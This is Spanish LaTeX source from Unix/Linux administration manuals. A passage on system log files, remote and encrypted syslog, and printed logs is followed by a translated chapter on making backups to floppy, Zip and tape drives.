root      console                       Wed Mar  1 06:18 - down   (17:54)
anita:/# 
\end{verbatim}
\end{quote}
Los registros guardados en este archivo (y tambi\'en en el fichero {\tt utmp}) 
tienen el
formato de la estructura {\tt utmp}, que contiene informaci\'on como el
nombre de usuario, la l\'{\i}nea por la que accede, el lugar desde donde lo
hace y la hora de acceso; se puede consultar la p\'agina de manual de funciones
como {\tt getutent()} para ver la estructura concreta en el clon de Unix en el
que trabajemos. Algunas variantes de Unix (como Solaris o IRIX) utilizan un 
fichero {\tt wtmp} extendido denominado {\tt wtmpx}, con campos adicionales
que proporcionan m\'as informaci\'on sobre cada conexi\'on.
\subsection{{\tt utmp}}
El archivo {\tt utmp} es un fichero binario con informaci\'on de cada usuario
que est\'a conectado en un momento dado; el programa {\tt /bin/login} genera
un registro en este fichero cuando un usuario conecta, mientras que {\tt init}
lo elimina cuando desconecta. Aunque habitualmente este archivo est\'a 
situado en {\tt /var/adm/}, junto a otros ficheros de {\it log}, es posible
encontrar algunos Unices -- los m\'as antiguos -- que lo situan en {\tt /etc/}.
Para visualizar el contenido de este archivo podemos utilizar \'ordenes como
{\tt last} (indicando el nombre de fichero mediante la opci\'on {\tt -f}), {\tt
w} o {\tt who}:
\begin{quote}
\begin{verbatim}
anita:/# who
root       console      Mar  2 00:13
root       pts/2        Mar  3 00:47  (unix)
root       pts/3        Mar  2 00:18  (unix)
root       pts/5        Mar  2 00:56  (unix)
root       pts/6        Mar  2 02:23  (unix:0.0)
root       pts/8        Mar  3 00:02  (unix:0.0)
root       pts/7        Mar  2 23:43  (unix:0.0)
root       pts/9        Mar  3 00:51  (unix)
root       pts/10       Mar  6 00:23  (unix)
anita:/# 
\end{verbatim}
\end{quote}
Como suced\'{\i}a con {\tt wtmp}, algunos Unices utilizan tambi\'en una 
versi\'on extendida de {\tt utmp} ({\tt utmpx}) con campos adicionales.
\subsection{{\tt lastlog}}
El archivo {\tt lastlog} es un fichero binario guardado generalmente en 
{\tt /var/adm/}, y que contiene un registro para cada usuario con la fecha y
hora de su \'ultima conexi\'on; podemos visualizar estos datos para un usuario
dado mediante \'ordenes como {\tt who} o {\tt finger}:
\begin{quote}
\begin{verbatim}
anita:/# finger toni
Login name: toni                In real life: Toni at ANITA
Directory: /export/home/toni          Shell: /bin/sh
Last login Mon Mar  6 11:07 on pts/11 from localhost
No unread mail
No Plan.
anita:/#
\end{verbatim}
\end{quote}
\subsection{{\tt faillog}}
Este fichero es equivalente al anterior, pero en lugar de guardar informaci\'on
sobre la fecha y hora del \'ultimo acceso al sistema lo hace del \'ultimo
intento de acceso de cada usuario; una conexi\'on es fallida si el usuario
(o alguien en su lugar) teclea incorrectamente su contrase\~na. Esta 
informaci\'on se muestra la siguiente vez que dicho usuario entra correctamente
a la m\'aquina:
\begin{quote}
\begin{verbatim}
andercheran login: toni
Password:
Linux 2.0.33.
1 failure since last login.  Last was 14:39:41 on ttyp9.
Last login: Wed May 13 14:37:46 on ttyp9 from pleione.cc.upv.es.

andercheran:~$
\end{verbatim}
\end{quote}
\subsection{{\tt loginlog}}
Si en algunas versiones de Unix (como Solaris) creamos el archivo 
{\tt /var/adm/loginlog} (que originalmente no existe), se registrar\'an en \'el 
los intentos fallidos de {\it login}, siempre y cuando se produzcan cinco o 
m\'as de ellos seguidos:
\begin{quote}
\begin{verbatim}
anita:/# cat /var/adm/loginlog 
toni:/dev/pts/6:Thu Jan  6 07:02:53 2000
toni:/dev/pts/6:Thu Jan  6 07:03:00 2000
toni:/dev/pts/6:Thu Jan  6 07:03:08 2000
toni:/dev/pts/6:Thu Jan  6 07:03:37 2000
toni:/dev/pts/6:Thu Jan  6 07:03:44 2000
anita:/# 
\end{verbatim}
\end{quote}
\subsection{{\tt btmp}}
En algunos clones de Unix, como Linux o HP-UX, el fichero {\tt btmp} se 
utiliza para
registrar las conexiones fallidas al sistema, con un formato similar al que
{\tt wtmp} utiliza para las conexiones que han tenido \'exito:
\begin{quote}
\begin{verbatim}
andercheran:~# last -f /var/adm/btmp |head -7
pnvarro   ttyq1        term104.aiind.up Wed Feb  9 16:27 - 15:38  (23:11)
jomonra   ttyq2        deportes.etsii.u Fri Feb  4 14:27 - 09:37 (9+19:09)
PNAVARRO  ttyq4        term69.aiind.upv Wed Feb  2 12:56 - 13:09 (20+00:12)
panavarr  ttyq2        term180.aiind.up Fri Jan 28 12:45 - 14:27 (7+01:42)
vbarbera  ttyp0        daind03.etsii.up Thu Jan 27 20:17   still logged in
pangel    ttyq1        agarcia2.ter.upv Thu Jan 27 18:51 - 16:27 (12+21:36)
abarra    ttyp0        dtra-51.ter.upv. Thu Jan 27 18:42 - 20:17  (01:34)
andercheran:~#
\end{verbatim}
\end{quote}
\subsection{{\tt sulog}}
Este es un fichero de texto donde se registran las ejecuciones de la orden
{\tt su}, indicando fecha, hora, usuario que lanza el programa y usuario cuya
identidad adopta, terminal asociada y \'exito ({\tt `+'}) o fracaso ({\tt `-'}) 
de la operaci\'on:
\begin{quote}
\begin{verbatim}
anita:/# head -4 /var/adm/sulog
SU 12/27 07:41 + console root-toni
SU 12/28 23:42 - vt01 toni-root
SU 12/28 23:43 + vt01 toni-root
SU 12/29 01:09 + vt04 toni-root
anita:/#
\end{verbatim}
\end{quote}
El registro de las invocaciones a la orden {\tt su} puede estar deshabilitado
por defecto en algunos sistemas Unix: por ejemplo, en Solaris es necesario crear
manualmente el fichero {\tt /var/adm/sulog}, mientras que en algunas 
distribuciones de Linux es necesario modificar el archivo {\tt /etc/login.defs}
para habilitar el registro de la actividad, tal y como veremos en el 
cap\'{\i}tulo dedicado a este clon de Unix. De esta forma, al instalar el 
sistema, y antes de pasarlo a un entorno de producci\'on, quiz\'as nos 
interese asegurarnos de que estamos guardando todos los cambios de identidad 
que se producen en la m\'aquina a trav\'es de {\tt su}.
\subsection{{\tt debug}}
En este archivo de texto se registra informaci\'on de depuraci\'on (de {\it
debug}) de los programas que se ejecutan en la m\'aquina; esta informaci\'on
puede ser enviada por las propias aplicaciones o por el n\'ucleo del sistema
operativo:
\begin{quote}
\begin{verbatim}
luisa:~# tail -8 /var/adm/debug
Dec 17 18:51:50 luisa kernel: ISO9660 Extensions: RRIP_1991A
Dec 18 08:15:32 luisa sshd[3951]: debug: sshd version 1.2.21 
[i486-unknown-linux]
Dec 18 08:15:32 luisa sshd[3951]: debug: Initializing random number 
generator; seed file /etc/ssh_random_seed
Dec 18 08:15:32 luisa sshd[3951]: debug: inetd sockets after dupping: 7, 8
Dec 18 08:15:34 luisa sshd[3951]: debug: Client protocol version 1.5; client 
software version 1.2.21
Dec 18 08:15:34 luisa sshd[3951]: debug: Calling cleanup 0x800cf90(0x0)
Dec 18 16:33:59 luisa kernel: VFS: Disk change detected on device 02:00
Dec 18 23:41:12 luisa identd[2268]: Successful lookup: 1593 , 22 : toni.users
luisa:~#
\end{verbatim}
\end{quote}
\section{{\it Logs} remotos}
El demonio {\tt syslog} permite f\'acilmente guardar registros en m\'aquinas
remotas; de esta forma se pretende que, aunque la seguridad de un sistema se
vea comprometida y sus {\it logs} sean modificados se puedan seguir registrando
las actividades sospechosas en una m\'aquina {\it a priori} segura. Esto se
consigue definiendo un {\tt `LOGHOST'} en lugar de un archivo normal en el 
fichero {\tt /etc/syslogd.conf} de la m\'aquina de la que nos interesa guardar 
informaci\'on; por ejemplo, si queremos registrar toda la informaci\'on de
prioridad {\tt info} y {\tt notice} en la m\'aquina remota {\tt rosita}, lo
indicaremos de la siguiente forma:
\begin{quote}
\begin{verbatim}
*.=info;*.=notice                        @rosita
\end{verbatim}
\end{quote}
Tras modificar {\tt /etc/syslogd.conf} hacemos que el demonio relea su fichero
de configuraci\'on envi\'andole la se\~nal {\sc sighup} (por ejemplo, con 
{\tt kill}).\\
\\Por su parte, en el {\it host} donde deseemos almacenar los {\it logs}, 
tenemos
que tener definido el puerto {\tt syslog} en {\tt /etc/services} y ejecutar
{\tt syslogd} con el par\'ametro {\tt `-r'} para que acepte conexiones a 
trav\'es de la red:
\begin{quote}
\begin{verbatim}
rosita:~# grep syslog /etc/services 
syslog          514/udp
rosita:~# ps xua|grep syslogd
root   41  0.0  0.4   852  304 ?        S    Mar21   0:01 /usr/sbin/syslogd
rosita:~# kill -TERM 41
rosita:~# syslogd -r 
rosita:~#
\end{verbatim}
\end{quote}
A partir de ese momento todos los mensajes generados en la m\'aquina origen
se enviar\'an a la destino y se registrar\'an seg\'un las reglas de esta,
en un fichero (lo habitual), en un dispositivo\ldots o incluso se reenviar\'an
a otra m\'aquina (en este caso hemos de tener cuidado con los bucles); si
suponemos que estas reglas, en nuestro caso, registran los mensajes de la
prioridad especificada antes en {\tt /var/adm/messages}, en este archivo
aparecer\'an entradas de la m\'aquina que ha enviado la informaci\'on:
\begin{quote}
\begin{verbatim}
rosita:~# tail -3 /var/adm/messages
Mar 23 07:43:37 luisa syslogd 1.3-3: restart. 
Mar 23 07:43:46 luisa in.telnetd[7509]: connect from amparo
Mar 23 07:57:44 luisa -- MARK -- 
rosita:~# 
\end{verbatim}
\end{quote}
Esto, que en muchas situaciones es muy recomendable, si no se realiza 
correctamente puede incluso comprometer la seguridad de la m\'aquina que guarda
registros en otro equipo: por defecto, el tr\'afico se realiza en texto claro,
por lo que cualquier atacante con un {\it sniffer} entre las dos m\'aquinas 
puede tener acceso a informaci\'on importante que habr\'{\i}a que mantener en
secreto; imaginemos una situaci\'on muy habitual: un usuario que teclea su 
{\it password} cuando el sistema le pide el {\it login}. Evidentemente, esto
generar\'a un mensaje de error que {\tt syslogd} registrar\'a; este mensaje
ser\'a similar a este (Linux Slackware 4):
\begin{quote}
\begin{verbatim}
Mar 23 05:56:56 luisa login[6997]: invalid password for `UNKNOWN'\
on `ttyp5' from `amparo'
\end{verbatim}
\end{quote}
Pero, >qu\'e suceder\'{\i}a si en lugar de {\tt `UNKNOWN'} el sistema almacenara
el nombre de usuario que se ha introducido, algo que hacen muchos
clones de Unix? En esta situaci\'on el mensaje ser\'{\i}a muy parecido al
siguiente (Linux Red Hat 6.1):
\begin{quote}
\begin{verbatim}
Mar 23 05:59:15 rosita login[3582]: FAILED LOGIN 1 FROM amparo FOR\
5k4@b&-, User not known to the underlying authentication module
\end{verbatim}
\end{quote}
Como podemos ver se registrar\'{\i}a una contrase\~na de usuario, 
contrase\~na que estamos enviando a la m\'aquina remota en
texto claro a trav\'es de la red; evidentemente, es un riesgo que no podemos
correr. Quiz\'as alguien pueda pensar que una clave por s\'{\i} sola no
representa mucho peligro, ya que el atacante no conoce el nombre de usuario en 
el sistema. De ninguna forma: el pirata s\'olo tiene que esperar unos 
instantes, 
porque cuando el usuario teclee su {\it login} y su {\it password} correctamente
(en principio, esto suceder\'a poco despu\'es de equivocarse, recordemos que
el usuario trata de acceder a su cuenta) el sistema generar\'a un mensaje 
indicando que ese usuario (con su nombre) ha entrado al sistema\footnote{Este
comportamiento es configurable desde {\tt /etc/login.defs}, como vemos en el
cap\'{\i}tulo dedicado a la seguridad en Linux.}.\\
\\Para evitar este problema existen dos aproximaciones: o bien registramos {\it 
logs} en un equipo directamente conectado al nuestro, sin emitir tr\'afico al 
resto de la red, o bien utilizamos comunicaciones cifradas (por ejemplo con
{\sc ssh}) para enviar los registros a otro ordenador. En el primer caso s\'olo
necesitamos un equipo con dos tarjetas de red, una por donde enviar el tr\'afico
hacia la red local y la otra para conectar con la m\'aquina donde almacenamos 
los {\it logs}, que s\'olo ser\'a accesible desde nuestro equipo y que no ha
de tener usuarios ni ofrecer servicios; no es necesaria una gran potencia de 
c\'alculo: podemos aprovechar un viejo 386 o 486 con Linux o FreeBSD para 
esta tarea.\\
\\El segundo caso, utilizar comunicaciones cifradas para guardar registros en
otro equipo de la red, requiere algo m\'as de trabajo; aqu\'{\i} no es 
estrictamente necesario que la m\'aquina est\'e aislada del resto de la red, ya 
que la
transferencia de informaci\'on se va a realizar de forma cifrada, consiguiendo
que un potencial atacante no obtenga ning\'un dato comprometedor analizando el
tr\'afico; evidentemente, aunque no est\'e aislado, es fundamental que el
sistema donde almacenamos los {\it logs} sea seguro. Para enviar un {\it log}
cifrado a una m\'aquina remota podemos utilizar, como hemos dicho antes, {\sc
ssh} unido a las facilidades que ofrece {\tt syslogd}; si lo hacemos as\'{\i},
lo \'unico que necesitamos es el servidor {\tt sshd} en la m\'aquina destino
y el cliente {\tt ssh} en la origen. Por ejemplo, imaginemos
que queremos utilizar a {\tt rosita} para almacenar una copia de los registros
generados en {\tt luisa} conforme se vayan produciendo; en este caso vamos a
enviar {\it logs} a un {\it fifo} con nombre, desde donde los cifraremos con 
{\sc ssh} y los enviaremos al sistema remoto a trav\'es de la red. Lo
primero que necesitamos hacer es crear un fichero de tipo tuber\'{\i}a en la
m\'aquina origen, por ejemplo con {\tt mknod} o {\tt mkfifo}:
\begin{quote}
\begin{verbatim}
luisa:~# mknod /var/run/cifra p
luisa:~# chmod 0 /var/run/cifra
luisa:~# ls -l /var/run/cifra
p---------   1 root     root            0 May  4 05:18 /var/run/cifra|
luisa:~# 
\end{verbatim}
\end{quote}
Este es el archivo al que enviaremos desde {\tt syslogd} los registros que nos
interesen, por ejemplo los de prioridad {\tt warn}; hemos de modificar {\tt
/etc/syslog.conf} para a\~nadirle una l\'{\i}nea como la siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# tail -1 /etc/syslog.conf 
*.warn                                             |/var/run/cifra
luisa:~# 
\end{verbatim}
\end{quote}
A continuaci\'on haremos que {\tt syslog} relea su nueva configuraci\'on 
mediante la se\~nal {\sc sighup}:
\begin{quote}
\begin{verbatim}
luisa:~# ps xua|grep syslog |grep -v grep
root      7978  0.0  0.2  1372  156 ?        S    03:01   0:00 syslogd -m 0
luisa:~# kill -HUP 7978
luisa:~#
\end{verbatim}
\end{quote}
Una vez realizados estos pasos ya conseguimos que se registren los eventos
que nos interesan en el fichero {\tt /var/run/cifra}; este archivo es una 
tuber\'{\i}a con nombre, de forma que los datos que le enviamos no se graban en 
el disco realmente, sino que s\'olo esperan a que un proceso lector los
recoja. Ese proceso lector ser\'a justamente el cliente {\tt ssh}, encargado
de cifrarlos y enviarlos al sistema remoto; para ello debemos lanzar una orden
como:
\begin{quote}
\begin{verbatim}
luisa:~# cat /var/run/cifra | ssh -x rosita 'cat >>/var/log/luisa'
\end{verbatim}
\end{quote}
Si tenemos configurado {\sc ssh} para que autentique sin clave podemos lanzar
el proceso directamente en {\it background}; si tenemos que introducir la
clave del {\tt root}, una vez tecleada podemos parar el proceso y relanzarlo 
tambi\'en en segundo plano (esto es simplemente por comodidad, realmente no
es necesario). Lo \'unico que estamos haciendo con este mecanismo es cifrar lo 
que llega al {\it 
fifo} y enviarlo de esta forma al sistema remoto, en el que se descifrar\'a y
se guardar\'a en el fichero {\tt /var/log/luisa}.\\
\\Quiz\'as nos interese a\~nadir unas l\'{\i}neas en los {\it scripts} de 
arranque de nuestra m\'aquina para que este proceso se lance autom\'aticamente
al iniciar el sistema; si lo hacemos as\'{\i} hemos de tener cuidado con la
autenticaci\'on, ya que si {\tt ssh} requiere una clave para conectar con el
sistema remoto es probable que la m\'aquina tarde m\'as de lo normal en arrancar
si un operador no est\'a en la consola: justamente el tiempo necesario
hasta que {\tt ssh} produzca un {\it timeout} por no teclear el {\it password}
de {\tt root} en el sistema remoto. Si al producirse el {\it timeout} el
programa {\tt ssh} no devuelve el control al {\it shell}, el sistema ni siquiera
arrancar\'a; de cualquier forma, si ese {\it timeout} se produce {\bf no}
estaremos registrando ning\'un evento en la otra m\'aquina. Por supuesto,
tambi\'en debemos prestar atenci\'on a otros problemas con la m\'aquina destino
que eviten que la conexi\'on se produzca, con un n\'umero m\'aximo de usuarios
sobrepasado o simplemente que ese sistema est\'e apagado.
\section{Registros f\'{\i}sicos}
Para asegurarnos m\'as de que la informaci\'on que se registra de las 
actividades en nuestro sistema es fiable acabamos de explicar c\'omo 
almacenarla, a la
vez que en un fichero de la propia m\'aquina, en un equipo remoto a trav\'es de
la red; la idea es poder comparar los registros de ambos sistemas para detectar
posibles modificaciones en una de ellas. Pero, >qu\'e sucede si el atacante
consigue tambi\'en control sobre el segundo equipo, y modifica tambi\'en 
ah\'{\i} los ficheros de {\it log}? Aunque {\it a priori} este sea un sistema
seguro, sabemos que nadie nos puede garantizar la seguridad al 100\%; en algunos
casos (por ejemplo si sospechamos que el intruso ha conseguido el control de 
ambos equipos) es conveniente recurrir a registros f\'{\i}sicos, mucho m\'as 
dif\'{\i}ciles de alterar que los l\'ogicos.\\
\\No siempre se guarda informaci\'on en un fichero plano, ya sea local o 
remoto.
Unix permite almacenar mensajes en ficheros especiales -- dispositivos --, como
terminales o impresoras; son estas \'ultimas las m\'as habituales por la 
seguridad que ofrecen, ya que mientras que un intruso con el privilegio 
suficiente puede modificar un fichero de {\it log} local, o acceder a un sistema
donde se almacenen registros remotos, no puede eliminar una informaci\'on
extra\'{\i}da por impresora sin tener acceso f\'{\i}sico a la misma. El demonio
{\tt syslog} de cualquier sistema Unix permite especificar uno de estos
ficheros especiales como destinatario de ciertos registros de una forma muy
simple: no tenemos m\'as que a\~nadir una entrada en {\tt /etc/syslog.conf}
indicando el dispositivo y la clase de eventos a registrar en \'el; por ejemplo,
para enviar todos los mensajes de prioridad {\tt warn} a una impresora (como
{\tt /dev/lp1}) no tenemos m\'as que a\~nadir en el archivo la l\'{\i}nea 
siguiente:
\begin{quote}
\begin{verbatim}
*.warn                         /dev/lp1
\end{verbatim}
\end{quote}
Como siempre, tras modificar el fichero de configuraci\'on hemos de hacer que
el demonio lo relea, bien envi\'andole la se\~nal {\sc sighup} o bien 
deteni\'endolo y volvi\'endolo a lanzar; por \'ultimo, si decidimos utilizar una
impresora para generar registros f\'{\i}sicos hemos de intentar que se trate
de un modelo de agujas, ya que dispositivos m\'as modernos utilizan {\it 
buffers} que no se llegan a imprimir hasta que est\'an llenos, por lo que 
ser\'{\i}a posible para un atacante hacer que se pierda cierta informaci\'on.
Hemos de evitar especialmente algunos modelos nuevos de impresoras que tienen
incluso sistema de red y direcci\'on {\sc ip} para control remoto, ya que
en este caso puede suceder que un pirata llegue a controlar el dispositivo 
igual que controla la m\'aquina que env\'{\i}a los registros.\\
\\Otro tipo de registro f\'{\i}sico, m\'as b\'asico e incluso m\'as fiable que
el anterior, pero que por desgracia no se suele utilizar mucho, son las propias
anotaciones sobre la marcha del sistema que todo administrador deber\'{\i}a
realizar en una especie de `cuaderno de bit\'acora' de cada equipo. 
Evidentemente la \'unica persona con acceso a dicho cuaderno deber\'{\i}a ser
el administrador, y deber\'{\i}a guardarse en un lugar seguro, aplicando las
mismas pol\'{\i}ticas que por ejemplo aplicamos a las cintas de {\it backup}
(alejadas del entorno de operaciones para prevenir la p\'erdida ante un
desastre f\'{\i}sico, almacenadas bajo llave\ldots).
 
\cleardoublepage
% Linux Installation and Getting Started    -*- TeX -*-
% backups.tex
% Copyright (c) 1993 by Matt Welsh and Lars Wirzenius
%
% This file is freely redistributable, but you must preserve this copyright 
% notice on all copies, and it must be distributed only as part of "Linux 
% Installation and Getting Started". This file's use is covered by
% the copyright for the entire document, in the file "copyright.tex".
%
% Este fichero es de distribuci�n libre, pero debe mantenerse esta 
% informaci�n de Copyright en todas las copias, y debe distribuirse solo como
% parte de "Instalaci�n y Primeros Pasos en Linux". El uso de este fichero esta
% cubierto por el Copyright del documento completo, en el fichero "copyright.tex"
% Copyright (c) 1995 por Gerardo Izquierdo para la versi�n al Castellano
% $Log: backups.tex,v $
% Revision 1.9  2003/07/19 06:41:04  joseluis.ranz
% Correcciones varias.
%
% Revision 1.8  2002/10/12 19:53:23  montuno
% quitando defectos y comandos
%
% Revision 1.7  2002/09/09 16:50:46  pakojavi2000
% Correcci�n de fallos peque�os
%
% Revision 1.6  2002/07/25 02:08:22  pakojavi2000
% Beta 2.1
%
% Revision 1.5  2002/07/21 00:56:46  pakojavi2000
% Beta2.1
%
% Revision 1.4  2002/07/20 17:41:16  pakojavi2000
% beta2
%
% Revision 1.3  2002/07/07 20:47:31  pakojavi2000
% Terminado de traducir el fragmento que quedaba
%
% Revision 1.2  2001/05/09 18:29:17  amolina
% Primera versi�n de sysadm/backups.tex, (falta la secci�n correspondiente
% a las unidades de cinta).
%
% Revision 0.5.0.1  1996/02/10 23:45:12  rcamus
% Primera beta publica
%Revisi�nn 0.6 2002/07/07 22:11:12 <serrador@arrakis.es>
%


%
% Versi�n para lipp 2.0 por Alberto Molina. Comentarios a:
%            alberto@nucle.us.es 
%

\section{Usando Disquetes y Haciendo Copias de Seguridad}
\index{ficheros!salvaguarda|(}
\index{copias de seguridad|(}
Los disquetes son utilizados normalmente como medio para copias de seguridad.
Si no se tiene una unidad de cinta conectada al sistema, se pueden utilizar 
disquetes (a pesar de que sean m�s lentos y algo menos seguros).

Como se mencion� anteriormente, los disquetes se pueden formatear con
los programas {\tt FORMAT.COM} de MS-DOS o {\tt fdformat} de
{\linux}. Esto graba la informaci�n apropiada de la capacidad del
disquete.

Algunos de los nombres de dispositivos y formatos accesibles por
{\linux}, se dan en la tabla~\ref{table-disk-formats}.

\begin{table}[ht]\begin{center}
\small\begin{tabular}{ll}
\hline
Controlador del disquete              & Formato \\
\hline
/dev/fd0d360                    & Double densidad, 360 Kb, 5.25 pulgadas.  \\
/dev/fd0h1200                   & Alta densidad, 1.2 MB, 5.25 pulgadas. \\
/dev/fd0h1440                   & Alta densidad, 1.44 MB, 3.5 pulgadas.
\end{tabular}\normalsize\rm
\caption{Formatos de disquete {\linux}}
\label{table-disk-formats}
\end{center}\end{table}

El dispositivo que empieza con {\tt fd0} es la primera unidad de
disquete, que se corresponde con la {\tt A:} de MS-DOS. Los nombres de
los ficheros del controlador de la segunda unidad de disquete empiezan
con {\tt fd1}. Normalmente, el n�cleo de {\linux} puede detectar el
formato del disquete, basta con usar {\tt /dev/fd0} y dejar que el
sistema reconozca el formato. Pero cuando se utilizan disquetes nuevos
sin formato, puede ser necesario especificar el formato si el sistema
no logra detectar el tipo de disquete que es.
 
Una lista completa de los dispositivos {\linux} y los nombres de los
controladores de las unidades viene en {\em {\linux} Allocated Devices,}
de H. Peter Anvin (ver Apendice~\ref{app-info}).

\subsection{Utilizando disquetes para copias de seguridad}
\index{disquetes!como medio de copias de seguridad}
\index{copias de seguridad!a disquete}
\index{copias de seguridad!multi-volumen}
La forma m�s simple de hacer una copia de seguridad es con {\tt tar}.
La orden
\begin{tscreen}
\# {\em tar cvfzM /dev/fd0 /}
\end{tscreen}
har� una copia de seguridad completa del sistema utilizando el disquete 
{\tt /dev/fd0}. La opci�n ``{\tt M}'' de {\tt tar} permite que la copia de
seguridad sea una copia multi-volumen; esto es, cuando un disquete est� lleno,
{\tt tar} pedir� el siguiente. La orden
\begin{tscreen}
\# {\em tar xvfzM /dev/fd0}
\end{tscreen}
puede ser utilizada para recuperar la copia de seguridad completa.
Este m�todo puede ser utilizado tambi�n si se tiene una unidad de cinta
({\tt /dev/rmt0}) conectada al sistema.

\index{backflops@{\tt backflops}}
\index{afio@{\tt afio}}
\label{sec-backfloppy}
Existen otros programas para hacer copias de seguridad multi-volumen; 
el programa {\tt backflops} disponible en {\tt tsx-11.mit.edu} puede ser 
�til.

Hacer una copia de seguridad completa del sistema puede ser costoso en 
tiempo y recursos.
Muchos administradores de sistemas utilizan una pol�tica de copias de 
seguridad incrementales, en la que cada mes se hace una copia de seguridad 
completa, y cada semana s�lo se copian aquellos ficheros que hayan sido 
modificados en esa semana. En este caso, si el sistema se viene abajo a 
mitad de mes, s�lo tiene que restaurar la �ltima copia de seguridad 
mensual 
completa y, despu�s, las �ltimas copias semanales seg�n el caso.

\index{copias de seguridad!incremental}
\index{find@{\tt find}!para copias de seguridad incrementales}
La instrucci�n {\tt find} puede ser �til para localizar ficheros que hayan 
cambiado desde una cierta fecha. Se pueden encontrar varios ficheros de 
ordenes para manejar copias de seguridad incrementales en 
{\tt sunsite.unc.edu}. 
\index{copias de seguridad|)}
\index{ficheros!salvaguarda|)}
\subsection{Copias de seguridad con unidades Zip} \label{sec-zip-backup}

Las copias de seguridad sobre unidades Zip son muy parecidas a las de
disquetes, pero puesto que los Zip tienen una capacidad de 98 Mb,
muchas veces s�lo se necesita uno para la copia de seguridad.

Las unidades Zip est�n disponibles con tres interfaces de hardware:
una interfaz SCSI, una interfaz IDE y una interfaz PPA de puerto
paralelo. El soporte de unidades Zip no est� incluido como opci�n de
pre-compilado en {\linux}, pero se puede especificar cuando se
personaliza el n�cleo del sistema. En la
p�gina~\pageref{kernel-ppa-driver} se describe la instalaci�n de este
tipo de unidades. 

Las unidades Zip con interfaz SCSI y PPA, usan la interfaz SCSI y
siguen las convenciones de nombres de los dispositivos SCSI que se
describen en la p�gina~\pageref{device-driver-names}. 

Los discos Zip vienen normalmente pre-formateados como tipo
MS-DOS. Hay dos opciones a la hora de usarlos: Usar el Zip como
sistema de ficheros MS-DOS, que debe soportar el n�cleo del sistema o
usar {\tt mke2fs} o alg�n programa similar para escribir un sistema de
ficheros GNU/{\linux}.

Un disco Zip, cuando est� montado como el primer dispositivo SCSI,
est� en {\tt /dev/sda4}.
\begin{tscreen}
\# mount /dev/sda4 /mnt
\end{tscreen}

Muchas veces conviene proporcionar un directorio diferente para montar
sistemas de fichero Zip, por ejemplo, {\tt /zip}. Los siguientes
pasos, que deben realizarse como {\tt root}, montar�n la unidad en
este directorio:
\begin{tscreen}
\# mkdir /zip \\
\# chmod 0755 /zip
\end{tscreen}
Entonces ya se puede utilizar {\tt zip} para montar el sistema de
ficheros Zip.

Escribir archivos a discos Zip es parecido a hacerlo en
disquetes. Para comprimir el directorio {\tt /etc} a una unidad Zip ya
montada, se debe utilizar la instrucci�n
\begin{tscreen}
\# tar zcvf /zip/etc.tgz /etc
\end{tscreen}

Que se puede ejecutar desde cualquier directorio, puesto que
especifica completamente el {\em path}. El nombre del archivo {\tt
  etc.tgz} es necesario si la unidad Zip contiene un sistema de
ficheros MS-DOS, puesto que todos los ficheros que se graben en el
disco deben seguir la convenci�n de nombres de MS-DOS de 8+3. En caso
contrario, se truncar� el nombre del fichero.

De forma similar, se extrae el contenido del archivo con la instrucci�n
\begin{tscreen}
\# cd /  \\
\# tar zxvf /zip/etc.tgz
\end{tscreen}

Para crear, por ejemplo, un sistema de ficheros ext2 en una unidad
Zip, se debe introducir la orden (para un disco Zip {\em desmontado})
\begin{tscreen}
\# mke2fs /dev/sda4
\end{tscreen}

Con una unidad Zip montada de esta manera, con un sistema de ficheros
ext2, es posible hacer una copia de seguridad de sistema de ficheros
completo con la simple instrucci�n
\begin{tscreen}
\# tar zcvf /zip/local.tar.gz /usr/local
\end{tscreen}

Hay que notar que el hacer copias de seguridad con {\tt tar} es m�s
aconsejable en muchos casos que hacer un simple {\tt cp -a}, porque
{\tt tar} conserva las fechas originales de modificaci�n de ficheros. 


% !Falta por traducir la siguiente subsecci�n!
% Me encargo de traducirla ya
%
\subsection{Hacer copias de seguridad a dispositivos de cinta} \label{sec-tape-backups}


%Archiving to a streaming tape drive is similar to making a backup to a
%floppy file system, only to a different device driver. Tapes are also
%formatted and handled differently that floppy diskettes. Some
%representative tape device drivers for {\linux} systems are listed in
%Table~\ref{table-tape-devices}.

Archivar a un dispositivo de cinta es similiar a hacer una copia de seguridad a un sistema de ficheros en disquetes,
solo que a un dispositivo diferente. La cintas se formatean y se manipulan de manera distinta que los  disquetes.
Algunos controladores de dispositivo para {\linux} se muestran en la tabla~\ref{table-tape-devices}
\begin{table}[ht]\begin{center}
\small\begin{tabular}{ll}
\hline
Controlador de dispositivo de cinta              & Formato \\
\hline
{\tt /dev/rft0}                 & Cinta QIC-117, rebobinar al cierre. \\
{\tt /dev/nrft0}                & Cinta QIC-117, no rebibonar al cierre.\\
{\tt /dev/tpqic11}              & Cinta QIC-11, rebobinar al cierre. \\
{\tt /dev/ntpqic11}             & Cinta QIC-11, no rebobinar al cierre. \\
{\tt /dev/qft0}                 & Unidad de cinta ``floppy'', rebobinar al cerrar. \\%rewind on close. \\
{\tt /dev/nqft0}                & Unidad de cinta ``floppy'', no rebobinar al cerrar. \\%Floppy tape drive, no rewind on close.\\
\end{tabular}\normalsize\rm
\caption{Controladores de dispositivos de cinta.}%Tape device drivers.}
\label{table-tape-devices}
\end{center}\end{table}
%Floppy tape drives use the floppy drive controller interface and are
%controlled by the ftape device driver, which is covered below.
%Installation of the ftape device driver module is described on
%page~\pageref{ftape-module}. SCSI tape devices are listed in
Las unidades de cinta ``floppy'' utilizan el interfaz del controlador de dispositivo de la unidad de disquete y se
controlan por el controlador de dispositivo ftape, del que se habla m�s abajo.
La instalaci�n del m�dulo del controlador de dispositivo ftape se describe en la p�gina~\pageref{ftape-module}. 
Los dispositivos de cinta SCSI se muestran en la tabla~\ref{table-scsi-devices}.

%To archive the {\tt /etc} directory a tape device with {\tt tar}, use 
%the command

Para archivar el directorio {\tt /etc} a una cinta mediante {\tt tar}, 
se usar� la orden:
\begin{tscreen}
\# tar cvf /dev/qft0 /etc
\end{tscreen}

%Similarly, to extract the files from the tape, use the commands
Similarmente para extraer los ficheros desde la cinta, se utiliza la orden:
\begin{tscreen}
\# cd / \\
\# tar xvf /dev/qft0
\end{tscreen}

%These tapes, like diskettes, must be formatted before they can be used. The
%ftape driver can format tapes under {\linux}. To format a QIC-40 format
%tape, use the command
Estas cintas, como los disquetes, deben ser formateados antes de que puedan usarse.
El controlador ftape puede formatear cintas en GNU/{\linux}. Para formatear una cinta QIC-40, se
utilizar� la orden
\begin{tscreen}
\# ftformat --format-parameter qic40-205ft --mode-auto --omit-erase --discard-header
\end{tscreen}
%Other tape drives have their own formatting software. Check the
%hardware documentation for the tape drive or the documentation of the
%{\linux} device driver associated with it.

